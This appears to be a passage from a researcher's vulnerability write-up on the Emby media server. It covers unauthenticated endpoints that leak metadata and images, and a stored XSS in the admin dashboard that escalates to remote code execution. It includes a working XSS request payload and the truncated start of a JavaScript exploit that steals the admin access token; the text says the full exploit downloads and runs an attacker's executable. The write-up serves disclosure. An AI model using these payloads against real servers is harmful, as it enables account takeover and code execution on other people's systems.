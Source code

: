 
#### SuggestionsService {#suggestionsservice}

The `SuggestionsService` endpoint can be used without authentication. Only a user id is needed. Because those start at 1, it's trivial to guess a correct one.

```txt
 https://<hostname:port>/emby/Users/1/Suggestions
```

Without any additional filters via query parameters, it seems that meta data of _every_ item in the library gets returned. This data contains sensitive information like paths and names. An attacker could use the ids to further leak data from other endpoints.


#### ImageService {#imageservice}

Most of the `ImageService` endpoints don't require authentication. An interesting one is

```txt
 https://<hostname:port>/emby/Items/<itemId>/Images/Primary
```

which lets an attacker download any image from the `Emby` instance. In combination with the `SuggestionsService`, the image id doesn't even have to be guessed. But because ids in `Emby` are sequential anyway, they _could_ be.


#### Remote Code Execution through XSS in Admin Dashboard {#remote-code-execution-through-xss-in-admin-dashboard}

A malicious user can send an authentication request with a manipulated `X-Emby-Client` value, which gets added to the devices section of the admin dashboard without sanitization.

Here's a small payload to verify the `XSS`:

```txt { linenos=true, linenostart=1 }
POST https://<hostname:port>/emby/Users/authenticatebyname?X-Emby-Client=%3Cimg%20src=%22x%22%20onerror=%22eval('console.warn(document.domain)')%22%20/%3E&X-Emby-Device-Id=13371337-1337-1337-1337-133713371337&X-Emby-Client-Version=4.7.14.0
Content-Type: application/json

{
  "Username": "username",
  "Pw": "password"
}
```

Because the `JavaScript` gets executed in the context of an administrator, every service endpoint is usable for an attacker.

Here's an exploit that executes an attacker controlled executable downloaded from the Internet:

```js { linenos=true, linenostart=1 }
(async function() {
    console.warn(
        `%c
 ___
(_  _  /   _        _
/__//)()(/(/(/()(/_)
        /_/
               -- GEBIRGE (2023)
`, "color: #d33682");

    const token = JSON.parse(localStorage.servercredentials3).Servers[0].AccessToken;

    const baseHeaders = {
        "X-Emby-Token": token,
    };

    // Retrieve some information in order to construct an unsuspicious path for our executable.
```

[^fn:1]: Last time I checked on Shodan.
[^fn:2]: The root cause was a vulnerability first reported at least three years earlier!
[^fn:3]: Jellyfin actually [did](https://jellyfin.org/posts/jellyfin-security-and-you).